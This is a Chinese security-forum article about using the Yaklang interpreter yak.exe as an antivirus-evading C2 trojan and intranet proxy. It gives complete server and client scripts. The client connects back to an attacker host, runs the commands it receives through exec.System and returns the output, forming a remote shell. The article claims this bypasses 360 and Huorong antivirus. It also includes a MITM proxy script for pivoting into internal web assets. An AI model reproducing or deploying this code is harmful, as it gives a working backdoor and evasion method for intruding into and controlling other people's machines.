





# Yak.exe滥用作C2木马 免杀360火绒内存扫描-先知社区

> **来源**: https://xz.aliyun.com/news/17948  
> **文章ID**: 17948

---

# 前言

Yaklang的TCP网络连接库用起来十分方便，一行代码即可启动一个TCP服务器

```
tcp.Serve("127.0.0.1", 8085, tcp.serverCallback(func(conn) {}))
```

一行代码即可连接TCP连接

```
conn, err := tcp.Connect("127.0.0.1", 9000)
```

然后server与clien就可以通信了。

那么利用TCP库是否也可以制作C2呢？做C2是否又可以做木马呢？

第一个问题显然是可以的，而且要时间简单的C2也是十分简单，代码量很小，这也是yaklang的强大之处。

对比python ， Python 是单线程阻塞模型，需要手动添加多线程才能同时处理多个连接，而Yaklang 自动为每个新连接创建独立协程，天然支持并发 ，Python 使用标准 socket 库，需要显式管理套接字生命周期而Yaklang 提供更简洁的 tcp.Serve 高阶函数，采用回调模式。所以如果需要快速原型开发时和高并发场景优先选择 Yaklang，不过需要精细控制底层细节时还是Python。

​

第二个问题，如果做木马，需要用到yak.exe，而yak.exe会不会被杀呢？起初我看了看yak.exe有没有数字签名，如果有的话肯定就是白文件了，因为他肯定不是伪造的，很可惜他没有



但是他的免杀效果如何呢？我个人觉得yak.exe是肯定不会被杀的，因为yakit是个合法软件，yakit必须也依赖yak.exe，所以我觉得大概率不会被杀的。而yak脚本呢，个人觉得目前来说被杀的概率也不大。也不像其他编程语言的那么敏感。实践上也正如我的推测。两款杀软都没有杀。那就动手试试C2的效果。

# Yak作C2

服务端起TCP服务器，并循环等待用户输入命令并向客户端发送命令，等待客户端的命令执行结果

```
loglevel("info")

go fn{
    tcp.Serve("192.168.0.105", 8085, tcp.serverCallback(func(conn) {
        defer conn.Close()
        println("建立连接：", conn.RemoteAddr())

        bytes, err := conn.Recv()
        if err != nil {
            conn.Close()
            return
        }
        println(string(bytes))
        for true{
            commond = input("输入需要执行的命令（输入 exit 退出）: ")
            println("下发命令："+commond)
            if commond == "exit" {
                println("连接关闭")
                break
            }

            err := conn.Send(commond)
            if  err != nil {
                println("发送失败:", err)
                break
            }

            for true{
                result, err := conn.Recv()
                if err == nil {
                    println("执行结果：
", result)
                    break
                } else {
                    continue
                }
            }
        }
    }))
}

for {
    sleep(1)
}
```

客户端请求建立TCP连接，并循环等待服务端发送的指令，执行完毕后将结果返回服务端

```
conn, err := tcp.Connect("192.168.0.105", 8085)
if err != nil {
    die(err)
}
defer conn.Close()

conn.Send("客户端就绪")

for {
    cmd, err := conn.RecvStringTimeout(20)
    if  err == nil {
        if cmd == "exit" {
            println("服务端要求关闭连接")
            break
        }
    if cmd != ""{
        raw, err := exec.System(cmd)
        if  err == nil {
            conn.Send("[成功] " + string(raw))
        } else {
            conn.Send("[失败] " + err.Error())
        }
    }
    } else {
        continue
    }
}

println("客户端正常退出")
```



经过测试，发现目前可以完全绕过360安全卫士与火绒防护。




​

# Yak作代理服务器

除了作C2以为，还能作代理服务服务器，也是免杀的效果

凭借Yaklang高效的开发效率，要完成内网穿透只需使用mimt函数库，让外网服务器作为代理服务进行持续的监听，等待连接，然后攻击者挂上对应的HTTP代理即可进一步对内网的WEB资产进行嗅探和测试。

```
func Proxy() {
    logquiet()
    port = cli.Int("--port", cli.setRequired(true))
    if port == 0 {
        println("[!]请使用--port指定端口")
        return
    } else {
        mitm.Start(
            port, 
            mitm.host("0.0.0.0"), 
            mitm.callback(fn(isHttps, url, request, response) {  }), 
            mitm.useDefaultCA(true), 
        )
    }
}

if YAK_MAIN {
    Proxy()
}
```



免杀效果




此外还能作很多事情，如内网嗅探。。。。。。。。

# 缺陷

后面经过V1ll4n师傅的指点发现用yak编译yak脚本的话，会在一个地方创建一个项目文件夹，而且名字也是固定的，叫yakit-projects，我的虚拟机里面虽然没有安装yakit，只是上传了个yak.exe，执行脚本之后还是会有这个目录，无法规避


因此会留下很明显的痕迹，不过地市级的护网，应该还是可以用用嘿嘿。

最终视频效果 后面见公众号吧 这里上传不了视频

​

​
